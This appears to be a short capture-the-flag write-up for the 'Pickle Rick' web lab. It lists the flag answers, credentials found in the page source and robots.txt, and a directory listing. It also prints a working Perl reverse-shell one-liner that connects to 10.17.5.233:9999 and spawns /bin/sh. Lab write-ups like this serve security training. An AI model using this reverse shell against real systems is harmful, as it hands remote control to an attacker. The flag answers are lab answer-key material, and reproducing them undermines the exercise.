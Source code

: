 <h1>Pickle Rick</h1>





1. What is the first ingredient Rick needs?
'''
mr. meeseek hair
'''

2. Whats the second ingredient Rick needs?
'''
1 jerry tear
'''

3. Whats the final ingredient Rick needs?
'''
fleeb juice
'''


'''
Found user name: R1ckRul3s
<p>Found from the source code of the web page</p>

Found password: Wubbalubbadubdub
<p>Found from the robots.txt file</p>
'''

'''
<p></p>
total 32
4 -rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
4 drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
4 -rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
4 -rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
4 -rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
4 -rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
4 -rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
4 -rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
'''


'''
Suspicious dir
/.htpasswd // Access denied
// command filter present in the web page
'''


'''
<p> Reverse shell code </p>
<code>perl -e 'use Socket;$i="10.17.5.233";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'</code>
'''

'''
<p>Privesc:-</p>
No permissions on sudo
'''


